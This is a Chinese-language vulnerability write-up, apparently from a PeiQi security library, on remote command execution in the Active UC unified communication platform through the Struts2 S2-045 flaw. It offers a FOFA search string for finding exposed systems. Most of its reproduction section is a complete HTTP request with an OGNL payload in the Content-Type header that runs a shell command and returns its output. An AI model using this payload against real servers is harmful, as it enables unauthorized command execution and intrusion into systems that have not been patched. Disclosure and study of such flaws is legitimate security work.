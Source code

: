 ```yaml
---
title: Active UC index.action 远程命令执行漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - Active UC
---
```


# Active UC index.action 远程命令执行漏洞

## 漏洞描述

网动统一通信平台 Active UC index.action 存在S2-045远程命令执行漏洞, 通过漏洞可以执行任意命令

## 漏洞影响

> [!NOTE]
>
> Active UC

## FOFA

> [!NOTE]
>
> title="网动统一通信平台(Active UC)"

## 漏洞复现

登录页面如下

![image-20210626131045931](/img/20210924020247660625.png)

发送如下请求包

```
POST /acenter/index.action HTTP/1.1
Cookie: SessionId=96F3F15432E0660E0654B1CE240C4C36
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Charsert: UTF-8
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}; boundary=---------------------------18012721719170
Cache-Control: no-cache
Pragma: no-cache
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
Content-Length: 196

-----------------------------18012721719170
Content-Disposition: form-data; name="pocfile"; filename="text.txt"
Content-Type: text/plain

xxxxxxx
-----------------------------18012721719170
```

![image-20210626131402560](/img/20210924020248315393.png)
